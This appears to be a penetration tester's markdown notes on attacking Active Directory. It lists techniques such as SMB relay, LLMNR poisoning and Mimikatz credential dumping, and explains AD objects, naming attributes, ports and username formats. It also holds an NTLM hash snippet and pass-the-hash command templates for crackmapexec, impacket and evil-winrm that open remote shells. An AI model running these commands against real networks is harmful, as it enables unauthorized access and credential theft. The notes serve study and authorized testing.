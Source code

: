 # AD Info
Passwords in SYSVOL also known as GPP Passwords
LLMNR/NBNS Poisoning
	`Reponder`
SMB Relay attack
Passwords in user description
IPv6 DNS Takeover Attacks
Token Impersonation
Credential Dumping with Mimikatz
Weaponized LNK
local & remote Rubeus
local powershell

AD
	ADUC
		Objects
			User account
				Domain user account
				Local user account
			Computer account
			Groups
				Security Group
				Distribution Group
			Shares
			Printers
			Organizational Units (OU)
			Attributes
			Delegate Control

Service account
	Managed service account (MSA)
		sMSA
		gMSA
	Computer account
	User account
		Domain user account
		Local user account

## User Naming Attributes
* userPrincipalName - the logon name for the user
* objectGUID - the unique identifier of a user
* sAMAccountName - a logon name that supports previous version of Windows
* objectSID - security identifier (SID) of the user
* sIDHistory - the previous SIDs for the user object

#### Domain & computers
NetBIOS name
DNS name

#### Users
Down-level logon name:
NetBios_DOMAIN/samAccountName
legacy systems - backwards compatible - used for local signon
20 chars long

User Principal Name (UPN):
userPrincipalName@DNS_DOMAIN_NAME
Useful in multi-domain 
Reflects email style

## Common services used in AD
LDAP
	Kerberos vs NTLM?
	SASL
	DHCP
	not SAML and RADIUS

|Service|port|
|-|-|
|DNS|53|
|Kerberos-kpasswd|88-464|
|RPC-HTTP enpoint mapper|135-593| 
|NetBios|137-138-139|
|LDAP-tls|389-636|
|SMB|445|
|Global catalog LDAP-tls|3268-3269|

## Domain username convention
firstlast
flast
firlas
first.last
f.last
fir.las

## Calculate NTLM hash
```Python
import hashlib,binascii
print(binascii.hexlify(hashlib.new('md4', "<PASSWORD>".encode('utf-16le')).digest()))
```

## Expoitation
Check:
`crackmapexec SERVICE <IP> -u '<USER>' -p <PASS>` hash: -H

Shell:
`impacket-wmiexec -hashes '<HASH>' <USER>@<IP>`
`impacket-psexec -hashes '<HASH>' <USER>@<IP>`
`evil-winrm -i <IP> -u <USER> -p '<PASS>'` hash: -H

## Post-exploitation
`Bloodhound`
	`SharpHound` for local AD
	`AzureHound` for Azure AD